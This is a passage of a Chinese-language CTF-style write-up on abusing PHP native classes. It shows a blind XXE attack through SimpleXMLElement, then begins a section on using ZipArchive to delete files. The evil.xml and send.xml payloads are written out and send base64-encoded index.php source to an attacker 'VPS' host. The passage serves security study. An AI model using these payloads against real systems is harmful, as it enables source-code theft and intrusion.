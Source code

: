 发现这个计算器是由于 module 调用了 calc 类，从而实现计算器的功能的

而且参数是可控的，而且有 3 个参数可以控制，可以利用 SimpleXMLElement 进行 XXE 攻击调取源码

在 VPS 上构造：

evil.xml

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE try[
<!ENTITY % int SYSTEM "http://VPS/test/send.xml">
%int;
%all;
%send;
]>
```

send.xml

```plain
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://VPS/?%payl;'>">
```

从日志看

[![](assets/1708675446-b77244e15d0d0508640a266e3294a177.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121153-826c58aa-d138-1.png)

之后打 SQL 注入，就不再这里过多陈述

# ZipArchive:删除文件

[PHP: ZipArchive - Manual](https://www.php.net/manual/zh/class.ziparchive)

用 Zip 压缩的文件归档。

-   php 5.20

常用类方法

```plain
ZipArchive::addEmptyDir：添加一个新的文件目录
ZipArchive::addFile：将文件添加到指定 zip 压缩包中
ZipArchive::addFromString：添加新的文件同时将内容添加进去
ZipArchive::close：关闭 ziparchive
ZipArchive::extractTo：将压缩包解压
ZipArchive::open：打开一个 zip 压缩包
ZipArchive::deleteIndex：删除压缩包中的某一个文件，如：deleteIndex(0) 代表删除第一个文件
ZipArchive::deleteName：删除压缩包中的某一个文件名称，同时也将文件删除
```
